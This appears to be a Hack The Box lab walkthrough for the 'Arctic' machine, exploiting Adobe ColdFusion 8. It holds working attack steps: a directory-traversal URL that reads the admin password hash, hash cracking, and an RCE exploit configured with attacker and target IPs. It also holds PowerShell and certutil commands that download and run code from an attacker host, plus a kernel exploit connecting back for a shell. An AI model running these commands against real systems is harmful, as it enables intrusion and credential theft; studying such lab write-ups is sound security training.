









# Summary


## about target

tip:  10.129.119.4

hostname: Arctic

Difficulty: Easy


## about attack

+ http exploit easy, two path to rce.
+ privesc, winpeas not work, powerup not to well, use suggester or sherlock.
+ kernel exploit, try more. Failed, try change payload to 64/86, revert target and try other exploit exe.


**attack note**

```bash
Arctic / 10.129.119.1

ORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
|_http-title: Index of /
49154/tcp open  msrpc   Microsoft Windows RPC


## http 8500 

adobe coldfusion 8 
exploit:
RCE  https://www.exploit-db.com/exploits/50057
https://paper.bobylive.com/Security/LARES-ColdFusion.pdf
https://pentest.tonyng.net/attacking-adobe-coldfusion/

Directory Traversal  https://www.exploit-db.com/exploits/14641
got hash

hash crack, password: happyday

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 admin.hash

pythoon 50075.py

powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.33/PowerUp.ps1'); Invoke-AllChecks"


move C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe CF8DotNetsvc.exe.bak
copy 1337.exe C:\ColdFusion8\jnbridge\CF8DotNetsvc.exe


kernel enum
python windows-exploit-suggester.py --systeminfo ~/lab/htb/arctic/sysinfo.txt --databases 2022-09-29-mssb.xls


https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
certutil -urlcache -split -f http://10.10.14.33/MS10-059.exe

.\ms10-059.exe 10.10.14.33 4444

```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
|_http-title: Index of /
49154/tcp open  msrpc   Microsoft Windows RPC


```


## Http enum

access via browser, got /cfide

got version, adobe coldfusion 8




search exploit

RCE  https://www.exploit-db.com/exploits/50057
https://paper.bobylive.com/Security/LARES-ColdFusion.pdf
https://pentest.tonyng.net/attacking-adobe-coldfusion/

Directory Traversal  https://www.exploit-db.com/exploits/14641


# Exploitation

## Rce 50057

modify the exploit

```bash
    lhost = '10.10.14.33'
    lport = 4444
    rhost = "10.129.126.53"
    rport = 8500

```

run and listen, got shell.

```bash
python 50057.py
```




## Directory Traversal - RCE

Directory Traversal  https://www.exploit-db.com/exploits/14641

reference, https://pentest.tonyng.net/attacking-adobe-coldfusion/

access the url, got the hash.

```py
http://10.129.126.53:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```



Crack hash. Password: happyday

```bash
echo '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03' > admin.hash

hash-identifier 
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 admin.hash
```




login via admin

according to https://paper.bobylive.com/Security/LARES-ColdFusion.pdf

got shell.


# Privesc


## local Enum

Powerup enum, have write permission to serveral service, not able to restart/shutdown.

```bash
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.33/PowerUp.ps1'); Invoke-AllChecks"
```








kernel enum. Win 2008 x64

```bash
systeminfo > sysinfo.txt

python windows-exploit-suggester.py --systeminfo ~/lab/htb/arctic/sysinfo.txt --databases 2022-09-29-mssb.xls
```




## System

ignore the exploit of Internet explorer

try:  MS13-005, MS11-011, MS10-059

MS10-059 work, exploit, https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

```bash
certutil -urlcache -split -f http://10.10.14.33/MS10-059.exe

.\ms10-059.exe 10.10.14.33 4444
```




## proof

```bash


```



